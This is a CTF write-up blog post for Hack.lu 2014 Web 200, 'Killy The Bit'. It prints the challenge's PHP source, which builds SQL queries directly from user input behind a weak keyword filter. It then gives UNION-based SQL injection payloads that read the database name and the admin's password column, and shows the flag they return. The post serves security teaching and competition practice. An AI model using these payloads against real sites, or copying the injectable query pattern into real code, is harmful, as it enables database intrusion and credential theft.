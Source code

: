 ```yaml
---
layout: post
title: "Hack.lu CTF 2014: Web 200 - Killy The Bit"
date: 2014-10-24 11:04:06.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 3caacfca488c02e06aecaa04d7a52eb5
---
```


{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/killy.png" description="Challenge Description" %}

In this challenge they provided a link to website Royal Bank of Fluxembourg and it's source.

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/front.png" description="Front page of the challenge webpage" %}

Source code of the given webpage

{% highlight php %}
<?php
include 'config.php';

echo "<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html>";

<!-- blind? we will kill you -->
if(isset($_GET['name']) && $_GET['name']!='' && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name'])) {
    $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

    if(mysql_fetch_object($res)) {
        // Generation of new password
        //<topsecure content>
        // this was filtered during the creation of the phps file
        //</topsecure content>
        die("A new password was generated and sent to your email address!");
    } else {


    $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            echo "We couldn't find your username, but it sounds like this user:<br>";
        } else {
            die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
        }
        $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        while($row = mysql_fetch_object($res)) {
           echo $row->name;
           echo "<br>";
        }
    }
} else {

echo "<div style='width:800px; margin:0 auto;'><hr><h1><center>Royal Bank of Fluxembourg<center></h1><hr><br><br>Dear users,<br>We were hacked by Killy the Bit! Please use this site to generate your new password. Login will be available on the 23.10.2014 10:01 CEST<br><br><br></div>";
     echo '<div style="width:400px;margin:0 auto;"<pre><img src=wanted.png></img></pre><br><br>';
    echo '<form action="#" method="get">Please enter your username: <br><input type="text" name="name"><br><input type="submit" name="submit" value="Generate"></form></div>';
}
?>
{% endhighlight %}

After having a glance at the given code, we found that challenge Author used `where name=` in one query and `where name sounds like` in other query. So we have to exploit this challenge with the help of sounds like query.

I submitted `admia` as username so 1st query returns no results so we will move to else part of the code where sounds like query returns 1 row because admin just sounds like `admia`.

Then I quickly applied this payload

{% highlight text %}
admia' UNION select database(),2 LIMIT 1,2 --
Note: There is a whitespace after `--` in the query.
{% endhighlight %}

Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user: ctf-level
{% endhighlight %}

Now we know the database name is ctf-level. And table name in `user` we can see it in given source code. And after some time admin gave a hint that password column name is `passwd`. So I made a query like this

{% highlight text %}
admia' UNION select passwd,2 from user where name='admin' LIMIT 1,2 --
Note: There is a whitespace after '--' in the query.
{% endhighlight %}

Which Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user:
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
{% endhighlight %}

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/flag.png" description="Flag being displayed in webpage" %}

Voila!! [r3b00+](https://ctftime.org/team/4882){:target="_blank"} awarded 200 pts

Thanks for Reading.. Feel free to comment :)
